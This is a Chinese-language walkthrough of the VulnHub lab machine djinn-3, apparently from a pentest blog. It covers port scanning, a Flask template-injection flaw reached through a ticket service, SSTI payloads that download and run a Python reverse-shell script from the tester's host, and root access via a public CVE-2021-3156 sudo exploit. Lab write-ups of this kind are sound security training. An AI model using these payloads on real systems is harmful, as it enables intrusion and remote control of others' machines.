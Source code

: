 ```yaml
---
layer: article
title: Vulnhub	492	djinn-3
tags: pentest vulnhub Walkthrough
---
```

考点：flask

靶机链接：<https://www.vulnhub.com/entry/djinn-3,492/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| djinn-3    | 10.0.2.10 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.10
$ sudo nmap -v -A -p- $rip
Scanning localhost (10.0.2.10) [65535 ports]
Discovered open port 22/tcp on 10.0.2.10
Discovered open port 80/tcp on 10.0.2.10
Discovered open port 5000/tcp on 10.0.2.10
Discovered open port 31337/tcp on 10.0.2.10
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:44:23:ac:b2:d9:82:e7:90:58:15:5e:40:23:ed:65 (RSA)
|   256 ae:04:85:6e:cb:10:4f:55:4a:ad:96:9e:f2:ce:18:4f (ECDSA)
|_  256 f7:08:56:19:97:b5:03:10:18:66:7e:7d:2e:0a:47:42 (ED25519)
80/tcp    open  http    lighttpd 1.4.45
|_http-title: Custom-ers
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd/1.4.45
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
31337/tcp open  Elite?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, NULL: 
|     username>
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     username> password> authentication failed
|   Help: 
|     username> password>
|   RPCCheck: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0x80 in position 0: invalid start byte
|   SSLSessionReq: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0xd7 in position 13: invalid continuation byte
|   TerminalServerCookie: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|_    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xe0 in position 5: invalid continuation byte

```

### WEB测试

查看5000端口，感觉应该是存在flask SSTI漏洞

31337端口需要用户名密码，guest/guest 连上，发现可以发内容，并显示在5000端口

### 漏洞发现

![1](F:\Users\ms\Desktop\492\1.PNG)

![2](F:\Users\ms\Desktop\492\2.PNG)

还可以执行命令了

本地http服务目录存放反弹shell脚本

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.2.15",444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

```python
# 下载
> open                                                      
Title: 8
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('wget http://10.0.2.15/reverse/r.py -O r.py').read()}}
# 运行
> open                                                      
Title: 9
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('python3.6 r.py 444').read()}}
```



## 获得权限

### 靶机测试

本地监听，点击5000端口的链接，获得反弹shell

![3](F:\Users\ms\Desktop\492\3.PNG)

## 提权

使用CVE-2021-3156提权

```bash
$ git clone https://github.com/worawit/CVE-2021-3156
$ cd CVE-2021-3156
$ python exploit_nss.py 
```

![4](F:\Users\ms\Desktop\492\4.PNG)
